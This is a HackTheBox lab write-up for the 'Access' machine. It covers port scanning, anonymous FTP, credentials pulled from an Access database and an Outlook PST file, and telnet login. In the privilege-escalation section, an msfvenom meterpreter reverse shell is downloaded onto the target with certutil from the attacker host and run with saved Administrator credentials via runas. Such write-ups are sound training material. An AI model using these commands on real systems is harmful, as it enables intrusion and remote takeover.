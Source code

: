 ### **Access - HackTheBox Lab**

#### **Date:** 2024-12-08  
#### **Target:** `10.10.10.98`  

---

## **Scope**

The goal is to enumerate the target, identify vulnerabilities, gain access, and escalate privileges.

---

## **Gaining Access**

### **Ports Enumeration**

1. **Initial Full Port Scan**  
   I ran a full TCP port scan to identify all open ports:
   ```bash
   nmap -A -p- -iL target -v
   ```
   Results revealed three open ports:  
   - **Port 21:** FTP (Microsoft ftpd)  
   - **Port 23:** Telnet  
   - **Port 80:** HTTP (Microsoft IIS httpd 7.5)

2. **Targeted Port Scan**  
   To gather detailed information, I performed an aggressive scan against the identified ports:
   ```bash
   nmap -A -p21,23,80 -iL target -v -oN target_ports.txt
   ```
   Key findings included:  
   - FTP allows **anonymous login** but restricts directory listing.
   - HTTP server runs **Microsoft IIS 7.5**, hosting a simple web page.
   - Telnet prompts for login credentials.

---

### **HTTP Enumeration**

1. **Web Server Overview**  
   The HTTP server displayed a static page with the title "MegaCorp." Server headers identified it as **Microsoft IIS 7.5** running ASP.NET.

2. **Search for Vulnerabilities**  
   Using `searchsploit`, I looked for potential exploits:
   ```bash
   searchsploit iis 7.5
   ```
   No critical vulnerabilities directly applicable to the setup were identified.

3. **Directory Brute-Forcing with `ffuf`**  
   A brute-force directory scan using `ffuf` yielded no additional paths.

4. **Nikto Scan**  
   A `nikto` scan highlighted several informational findings, including:
   - Missing `X-Frame-Options` and `X-Content-Type-Options` headers.
   - Supported HTTP methods: `OPTIONS, TRACE, GET, HEAD, POST`.

---

### **Telnet Enumeration**

1. **Login Prompt**  
   Attempting to connect:
   ```bash
   telnet 10.10.10.98 23
   ```
   This revealed a **Microsoft Telnet Service** requiring credentials.

2. **Nmap Telnet Script Scan**  
   Using Nmap scripts for Telnet:
   ```bash
   nmap -n -sV -Pn --script "*telnet* and safe" -p 23 $(cat target)
   ```
   The scan revealed additional information:
   - **Host Name:** ACCESS

---

### **FTP Enumeration**

1. **Access FTP Server**  
   Anonymous login was enabled:
   ```bash
   ftp -a 10.10.10.98
   ```
   Inside the FTP server, I discovered two files:  
   - `backup.mdb` (Microsoft Access Database)  
   - `Access Control.zip` (Password-protected ZIP file)

2. **Download Files**  
   To download the files:
   ```bash
   bin
   get backup.mdb
   get "Access Control.zip"
   ```

   ![image](https://github.com/user-attachments/assets/95c46133-1ab3-4af9-b701-65e5696af23f)

3. **Analyze Database File**  
   Using `mdb-tools`, I extracted tables from the `.mdb` file:
   ```bash
   mdb-tables backup.mdb | sed 's/ /\n/g' > tables
   ```
   The `auth_user` table contained credentials, which I exported:
   ```bash
   mdb-export backup.mdb auth_user > auth_user.csv
   ```
   
   ![image](https://github.com/user-attachments/assets/b49f3d06-3df1-4b63-900d-96555d817181)

4. **Decrypt ZIP File**  
   One password from the `auth_user` table successfully decrypted `Access Control.zip`:
   ```bash
   7z x "Access Control.zip"
   ```
   This extracted a `.pst` file (Microsoft Outlook Data File).

5. **Converted pst file to mbox**
   To convert a pst file to mbox I ran:
   ```bash
   readpst "Access Control.pst"
   ```
6. **Gain Access**
   Reading the mbox file I found the user credential.
   I used telnet to test them and I gain access on the target machine, obtaining the user flag.

---

## **Privilege Escalation**

1. **System Information**  
   Running `systeminfo`:
   ```cmd
   systeminfo
   ```
   Identified:
   - **OS:** Windows Server 2008 R2 Standard  
   - **Hotfixes:** Multiple missing patches (potential vulnerabilities).  

2. **Exploit Preparation**  
   I notice Administrative credential saved on the target machine by running:
   ```cmd
   cmdkey /list
   ```
   
   ![image](https://github.com/user-attachments/assets/952e395b-1361-4ff0-a317-59b06b60500a)

   I prepared a reverse shell payload using `msfvenom`:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=2323 -f exe > p.exe
   ```

3. **File Transfer**  
   Using `certutil`, I transferred the payload to the victim machine:
   ```cmd
   cd %TEMP%
   certutil -urlcache -f "http://10.10.16.9:9878/p.exe" p.exe
   ```

4. **Open Listener**  
   On my local machine, I started a listener with `msfconsole`:
   ```bash
   msfconsole
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 10.10.16.9
   set LPORT 2323
   run
   ```
5. **Execute Payload**  
   I used stored credentials to run the payload with administrative privileges:
   ```cmd
   runas /savecred /user:ACCESS\Administrator p.exe
   ```
   I got the shell and the root flag.

---

## **Resources**

- [Kali - MDB Tools](https://www.kali.org/tools/mdbtools/)  
- [Kali - libpst](https://www.kali.org/tools/libpst/)  
- [Windows Privilege Escalation Notes](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/StoredCredentialsRunas.md)

---
